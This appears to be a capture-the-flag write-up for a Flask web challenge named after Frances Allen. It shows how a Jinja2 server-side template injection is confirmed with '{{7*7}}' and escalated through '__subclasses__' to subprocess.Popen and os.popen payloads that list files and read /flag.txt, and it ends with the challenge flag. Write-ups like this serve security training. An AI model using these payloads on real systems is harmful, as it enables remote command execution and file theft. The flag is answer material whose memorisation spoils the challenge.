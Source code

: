 # Frances Allen

## Description
> Frances Elizabeth Allen (August 4, 1932 – August 4, 2020) was an American computer scientist and pioneer in the field of optimizing compilers. Allen was the first woman to become an IBM Fellow, and in 2006 became the first woman to win the Turing Award. Her achievements include seminal work in compilers, program optimization, and parallelization. She worked for IBM from 1957 to 2002 and subsequently was a Fellow Emerita. - Wikipedia Entry

> Chal: Build your best attack against this webapp and inspire the first woman to win the Turing Award

### Challenge URL 
[Challenge Link](https://cyberheroines-web-srv5.chals.io/)

## Solution
* Using the `Wappalyzer` browser extension we can see that the page is using `flask`.
* Maybe SSTI?
* SSTI: A **server-side template injection** occurs when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.
<br><br>

* We can confirm SSTI using `{{7*7}}`

![ssti1](image.png)

* As `{{7*7}}` returns `49` we can confirm that the page is vulnerable to SSTI and is using the `Jinja2` template engine.
<br><br>

**Forming the payload**
* call the current class instance using `__class__`, call this on an empty string
    ```
    {{ ''.__class__ }}
    ```
* Use `__mro__` to climb up the inherited object tree:
    ```
    {{''.__class__.__mro__}}
    ```

* To access the second property in the tuple, use `1`:
    ```
    {{''.__class__.__mro__[1]}}
    ```

* to climb down the object tree, we use `__subclasses__`:
    ```
    {{''.__class__.__mro__[1].__subclasses__()}}
    ```
![subclasses](image-3.png)
* Copy the output to a text editor and search for `subprocess` or `os` and its index.
![Alt text](image-4.png)
* We see that `subprocess.Popen` is at index `353`
* As it is a list, we can access it using the index. Accessing `subprocess` module
    ```
    {{''.__class__.__mro__[1].__subclasses__()[352]}}
    ```
* Now that we have accessed the `subprocess` module, we can use it to execute commands and read files on the server.
* Listing files
    ```
    {{''.__class__.__mro__[1].__subclasses__()[352]('ls', shell=True, stdout=-1).communicate()}}
    ```
<br><br>

* Listing files in the root (`/`) directory, we can see a `flag.txt` file.
    ```
    {{''.__class__.__mro__[1].__subclasses__()[352]('ls /', shell=True, stdout=-1).communicate()}}
    ```
    ![flag.txt](image-1.png)
<br><br>
* Reading `flag.txt` contents
    ```
    {{''.__class__.__mro__[1].__subclasses__()[352]('cat /flag.txt', shell=True, stdout=-1).communicate()}}
    ```
    ![flag](image-2.png)
    
### Final Payload
```
{{''.__class__.__mro__[1].__subclasses__()[352]('cat /flag.txt', shell=True, stdout=-1).communicate()}}
```
### Alternative Payload
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /flag.txt').read() }}
```

### FLAG
```
chctf{th3re_W4s_n3v3r_a_d0ubt_th4t_1t_w4s_1mp0rt4nt}
```


## References
* [hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python)
* [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2)